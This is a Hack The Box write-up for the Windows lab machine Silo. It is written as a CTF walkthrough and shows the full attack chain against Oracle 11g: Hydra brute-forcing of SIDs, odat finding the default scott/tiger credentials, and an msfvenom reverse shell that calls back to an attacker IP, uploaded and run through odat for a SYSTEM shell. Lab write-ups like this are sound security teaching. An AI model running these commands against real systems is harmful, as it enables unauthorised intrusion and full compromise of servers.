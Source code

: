 ```yaml
---
title: Silo
tags: windows
description: Write-up for Hack the Box - Silo
---
```


![2021-09-12_14-33.png](assets/2021-09-12_14-33.png)

## Overview

Silo is a Windows Server box running Oracle 11g that was using the default SID names and was accessible using the default scott/tiger credentials. Once I determined the credentials I was able to log into the database will full access, upload a reverse shell and get full access to the box.

## Enumeration

**Software**

* Windows Server 2012 R2
* Oracle 11.2.0.2.0

**Open Ports**

```
nmap -vv --reason -Pn -sT -A --osscan-guess -p- -oN results/10.10.10.82/scans/_full_tcp_nmap.txt
```

* 80/tcp - http

* 135/tcp - Windows RPC

* 139/tcp - NetBIOS

* 445/tcp - SMB

* 1521/tcp - Oracle TNS

* 5985/tcp - WinRM

* 47001/tcp - Windows RPC

* 49152-55/tcp - Windows RPC

* 49159/tcp - Oracle TNS

* 49160-62/tcp - Windows RPC

## Steps (User)

I started out by browsing to http://10.10.10.82 but received the default IIS webpage. I ran a file/directory brute force but no results were returned. I was also not able to access the smb share anonymously so I moved on to port 1521, Oracle TNS. I learned that TNS stands for Transparent Network Substrate and was created by oracle mainly for connection to Oracle databases.

I didn't have much experience with Oracle databases prior to this so I had to do a bit of reading. The first step when enumerating Oracle databases is determining which instances (SIDs) are listening. A SID is a unique name for an Oracle database instance on a specific host. Hydra supports brute forcing Oracle TNS sids and I used the sids file provided with metasploit with the command and determined 3 SIDs: CLRExtProc, PLSExtProc, XE.

```
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 10.10.10.82 oracle-sid
```

![2021-09-12_15-24.png](assets/2021-09-12_15-24.png)

I attempted to use nmap's oracle-brute-stealth script against the found sides, including XE but the hashes appeared to be missing the salt. More info [here](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/remote-stealth-pass-brute-force)

```
nmap -p1521 --script oracle-brute-stealth --script-args oracle-brute-stealth.sid=XE -n 10.10.10.82
```

![2021-09-12_15-44.png](assets/2021-09-12_15-44.png)

I did some more research and came across a tool called odat (Oracle Database Attacking Tool).  I ran it specifying all checks and found default username and password scott/tiger but all the other checks were "KO".

```
sudo ./odat.py all -s 10.10.10.82 -p 1521
```

![2021-09-14_11-06.png](assets/2021-09-14_11-06.png)

I wanted to see if I could login with the creds that odat found and for that I needed sqlplus. Installing sqlplus on kali is a bit of a manual process. I followed the guide [here](https://medium.com/@netscylla/pentesters-guide-to-oracle-hacking-1dcf7068d573) to get it installed. Once complete, I was able to log in with scott/tiger. I had access but needed to figure out what I could do with it...

![2021-09-14_11-08.png](assets/2021-09-14_11-08.png)

After some research I came across the [Oracle RCE](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-rce-and-more#read-write-files) section on the Hacktricks site which showed how to write files to the filesystem and run them from a table both manually and using [ODAT](https://github.com/quentinhardy/odat). The manual method involves uploading a file, creating a table that calls the file, and executing a query on the table to execute the file. ODAT's utilfile and externaltable commands automate this and I opted to go that route.

A requirement of this approach is to upload a file so I went with msfvenom to create a windows reverse shell exe.

```
msfvenom -p windows/x64/shell_reverse_tcp lport=4200 lhost=10.10.14.9 -f exe -o /home/sixstringacks/boxes/silo/rshell.exe
```

I set up a netcat listener and ran odat with the utlfile parameter to upload the reverse shell.

```
~/share/git/odat/odat.py utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile  C:/Windows/Temp rshell.exe rshell.exe
```

Next I used the externaltable command to execute that file and received a callback on my netcat listener.

```
~/share/git/odat/odat.py externaltable -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --exec C:/Windows/Temp rshell.exe
```

Surprisingly, I received a shell as 'nt authority/system' so no privilege escalation needed as I had full access to the system including both the user and root flags

![2021-09-14_16-03.png](assets/2021-09-14_16-03.png)

## Steps (root/system)

*not needed*
